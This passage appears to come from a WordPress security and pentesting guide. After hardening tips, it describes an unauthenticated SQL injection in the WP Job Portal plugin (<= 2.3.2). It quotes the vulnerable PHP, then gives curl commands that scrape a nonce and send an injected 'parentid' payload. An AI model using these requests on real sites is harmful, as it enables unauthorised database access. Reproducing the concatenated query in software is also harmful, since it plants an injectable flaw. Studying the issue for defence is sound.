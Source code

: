 Also, **only install trustable WordPress plugins and themes**.

### Security Plugins

- [**Wordfence Security**](https://wordpress.org/plugins/wordfence/)
- [**Sucuri Security**](https://wordpress.org/plugins/sucuri-scanner/)
- [**iThemes Security**](https://wordpress.org/plugins/better-wp-security/)

### **Other Recommendations**

- Remove default **admin** user
- Use **strong passwords** and **2FA**
- Periodically **review** users **permissions**
- **Limit login attempts** to prevent Brute Force attacks
- Rename **`wp-admin.php`** file and only allow access internally or from certain IP addresses.


### Unauthenticated SQL Injection via insufficient validation (WP Job Portal <= 2.3.2)

The WP Job Portal recruitment plugin exposed a **savecategory** task that ultimately executes the following vulnerable code inside `modules/category/model.php::validateFormData()`:

```php
$category  = WPJOBPORTALrequest::getVar('parentid');
$inquery   = ' ';
if ($category) {
    $inquery .= " WHERE parentid = $category ";   // <-- direct concat ✗
}
$query  = "SELECT max(ordering)+1 AS maxordering FROM "
        . wpjobportal::$_db->prefix . "wj_portal_categories " . $inquery; // executed later
```

Issues introduced by this snippet:

1. **Unsanitised user input** – `parentid` comes straight from the HTTP request.
2. **String concatenation inside the WHERE clause** – no `is_numeric()` / `esc_sql()` / prepared statement.
3. **Unauthenticated reachability** – although the action is executed through `admin-post.php`, the only check in place is a **CSRF nonce** (`wp_verify_nonce()`), which any visitor can retrieve from a public page embedding the shortcode `[wpjobportal_my_resumes]`.

#### Exploitation

1. Grab a fresh nonce:
   ```bash
   curl -s https://victim.com/my-resumes/ | grep -oE 'name="_wpnonce" value="[a-f0-9]+' | cut -d'"' -f4
   ```
2. Inject arbitrary SQL by abusing `parentid`:
   ```bash
   curl -X POST https://victim.com/wp-admin/admin-post.php \
        -d 'task=savecategory' \
        -d '_wpnonce=<nonce>' \
        -d 'parentid=0 OR 1=1-- -' \
        -d 'cat_title=pwn' -d 'id='
   ```
   The response discloses the result of the injected query or alters the database, proving SQLi.
